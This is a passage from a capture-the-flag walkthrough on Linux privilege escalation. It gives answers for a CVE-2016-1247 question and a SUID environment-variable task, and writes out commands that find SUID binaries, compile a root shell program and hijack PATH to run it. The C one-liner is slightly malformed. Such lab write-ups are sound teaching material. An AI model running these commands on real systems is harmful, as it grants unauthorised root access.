 {% hint style="success" %}
`CVE-2016-1247`
{% endhint %}

#### What binary is SUID enabled and assists in the attack?

![](<.gitbook/assets/Screenshot from 2021-09-10 09-31-54.png>)

{% hint style="success" %}
`sudo`
{% endhint %}

#### Reference

{% embed url="http://sp4rk.win/2017/03/01/Nginx%E6%9C%AC%E5%9C%B0%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87(cve-2016-1247)%E5%A4%8D%E7%8E%B0%E5%88%86%E6%9E%90/" %}

## Task 13 SUID (Environment Variables #1)

```bash
find / -type f -perm -4000 2>/dev/null
# /usr/local/bin/suid-env
strings /usr/local/bin/suid-env
# system
# service apache2 start
```

```bash
echo 'int main {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc -o /tmp/service /tmp/service.c
PATH=/tmp:$PATH suid-env
```

#### What is the last line of the "strings /usr/local/bin/suid-env" output?

{% hint style="success" %}
`service apache2 start`
{% endhint %}
